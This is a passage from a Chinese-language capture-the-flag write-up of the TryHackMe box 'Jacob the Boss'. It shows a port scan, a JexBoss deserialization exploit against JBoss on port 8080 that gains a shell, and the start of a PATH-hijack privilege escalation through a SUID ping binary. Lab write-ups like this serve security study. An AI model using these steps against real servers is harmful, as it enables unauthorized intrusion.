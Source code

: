 ```yaml
---
sidebar_position: 123
tags: [Easy, Linux, PATH, 反序列化, SUID]
title: "Jacob the Boss"
description: "Jacob the Boss"
sidebar_label: "Jacob the Boss"
slug: /tryhackme/123
---
```


# Jacob the Boss

## 端口扫描

```bash
root@ip-10-10-139-22:~/jacobtheboss# nmap -sTCV -p- --min-rate 1000 10.10.113.162

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-28 09:30 BST
Nmap scan report for jacobtheboss.box (10.10.113.162)
Host is up (0.00041s latency).
Not shown: 65515 closed ports
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
|_  256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (EdDSA)
80/tcp    open  http         Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|_  100000  2,3,4        111/udp  rpcbind
1090/tcp  open  java-rmi     Java RMI Registry
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  rmiregistry  Java RMI
1099/tcp  open  java-rmi     Java RMI
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        MariaDB (unauthorized)
3873/tcp  open  java-rmi     Java RMI
4444/tcp  open  rmiregistry  Java RMI
4445/tcp  open  java-rmi     Java RMI
4446/tcp  open  java-rmi     Java RMI
4457/tcp  open  tandem-print Sharp printer tandem printing
4712/tcp  open  msdtc        Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?
| fingerprint-strings: 
|   DNSStatusRequest, DNSVersionBindReq, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, WMSRequest, X11Probe, afp, giop, oracle-tns: 
|_    a322
8009/tcp  open  ajp13        Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
37341/tcp open  rmiregistry  Java RMI
40657/tcp open  unknown
41762/tcp open  unknown
```

## 8080

存在 JBoss 的系统, 我们可以尝试反序列化之类的攻击 [JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool](https://github.com/joaomatosf/jexboss)

```bash
root@ip-10-10-139-22:~/jacobtheboss/jexboss# python jexboss.py -host  http://10.10.113.162:8080/
.....
[Type commands or "exit" to finish]
Shell> id
 Failed to check for updates
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
```

## 后渗透

### jexboss

利用上面获取的 Shell 转换为反向 Shell

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141938.png)

### jexboss —> root

查找 SUID 程序发现一个未知的程序

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141938-1.png)

执行此程序, 我发现其是调用 ping 命令, 那么可能存在 PATH 利用

```bash
(remote) jacob@jacobtheboss.box:/var/www/html$ /usr/bin/pingsys
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ping -c 4 (null)'
```

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-141938-2.png)